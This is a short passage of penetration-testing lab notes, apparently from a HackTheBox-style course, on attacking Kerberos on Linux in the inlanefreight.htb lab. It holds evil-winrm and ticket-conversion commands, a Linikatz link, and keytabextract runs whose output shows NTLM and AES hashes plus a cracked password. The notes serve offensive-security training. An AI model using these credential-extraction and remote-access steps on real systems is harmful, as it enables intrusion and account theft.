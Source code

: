 In case the package `krb5-user` is already installed, we need to change the configuration file `/etc/krb5.conf` to include the following values:

```shell-session
cat /etc/krb5.conf
```

```shell
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

## Miscellaneous

```shell
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```

#### Linikatz

https://github.com/CiscoCXSecurity/linikatz

### exercises

![[Pasted image 20250131135045.png]]

> [!NOTE]
> [*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
> [*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
> [*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
> [+] Keytab File successfully imported.
> 	REALM : INLANEFREIGHT.HTB
> 	SERVICE PRINCIPAL : carlos/
> 	NTLM HASH : a738f92b3c08b424ec2d99589a9cce60 - Password5
> 	AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
> 	AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4



![[Pasted image 20250131135141.png]]
```shell 
carlos@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py .scripts/svc_workstations.kt 
```

> [!NOTE]
> 
> [!] No RC4-HMAC located. Unable to extract NTLM hashes.
> [*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
> [!] Unable to identify any AES128-CTS-HMAC-SHA1 hashes.
> [+] Keytab File successfully imported.
> 	REALM : INLANEFREIGHT.HTB
> 	SERVICE PRINCIPAL : svc_workstations/
> 	AES-256 HASH : 0c91040d4d05092a3d545bbf76237b3794c456ac42c8d577753d64283889da6d

```
carlos@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /home/carlos@inlanefreight.htb/.scripts/john.keytab

```
